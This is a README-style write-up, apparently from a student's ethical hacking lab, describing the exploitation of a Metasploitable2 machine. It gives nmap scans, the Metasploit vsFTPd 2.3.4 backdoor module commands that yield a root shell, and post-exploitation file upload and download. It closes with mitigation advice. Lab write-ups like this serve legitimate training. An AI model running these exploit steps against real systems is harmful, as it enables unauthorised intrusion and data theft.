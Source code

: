 # 🔐 System Hacking – Gaining Access to a Vulnerable Machine

## 🧠 Objective
This ethical hacking project simulates a real-world exploitation scenario where a penetration tester targets a vulnerable system (Metasploitable2) using the Metasploit Framework. The objective is to identify susceptible services, exploit them, gain shell access, escalate privileges, and demonstrate basic post-exploitation actions.

---

## 🛠️ Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **Metasploitable2 (vulnerable target machine)**
- `nmap`, `whoami`, `uname`, `ls`, and other Linux commands

---

## 🛰️ Scanning and Enumeration

**General nmap scan (to feel around)**
```bash
nmap <target-IP>
```

![Nmap Scan](images/nmap-scan.png)

**Detailed nmap scan to see services and versions**
```bash
nmap -A -sV <target-IP>
```

![Nmap Scan2](images/nmap-version-scan1.png)
![Nmap Scan2](images/nmap-version-scan2.png)
![Nmap Scan2](images/nmap-version-scan3.png)

- Discovered open port: `21/tcp` (FTP)
- Service detected: `vsFTPd 2.3.4` — a known vulnerable service with a backdoor.

---

## 💣 Exploitation Process

**Exploit Module Used:**

```
exploit/unix/ftp/vsftpd_234_backdoor
```

**Metasploit Commands:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-IP>
set RPORT 21
run
```

📍 Successfully spawned a root-level shell:
```
[*] Command shell session 1 opened
```

---

## 🧪 Post-Exploitation

- Verified root access with `whoami` → `root`
- Navigated file system, listed directories
- Transferred files from attacker to victim using Meterpreter `upload` command
- Downloaded victim's files back to Kali using `download` command

---

## ⚠️ Challenges Faced & Resolutions

| Challenge | Solution |
|----------|----------|
| No internet access in Kali VM | Switched VM network adapter from Host-Only to NAT |
| Metasploit exploit failed to recreate session after closing | Rebooted Metasploitable2 to restart vulnerable FTP service |
| Upload error in normal shell | Upgraded to Meterpreter for advanced file interaction |
| Difficulty identifying active sessions | Used `sessions -i <id>` instead of `sessions` |
| Command confusion between shell and Meterpreter | Ensured proper shell upgrade and command context awareness |

---

## ✅ Result/Outcome

Successfully gained root-level access to the target machine, demonstrated file transfer techniques post-exploitation, and documented how to secure systems against such attacks.

---

## 🛡️ Mitigation Recommendations

To prevent exploitation of similar vulnerabilities in a production environment:

- Always keep services and operating systems updated.
- Replace outdated or unsupported software.
- Disable unnecessary services and ports.
- Use firewalls to control inbound/outbound traffic.
- Enforce least privilege and proper user access controls.
- Regularly scan systems for known vulnerabilities.

---

## 🧠 Author
Francis Uramah

Date created: 24/04/2025
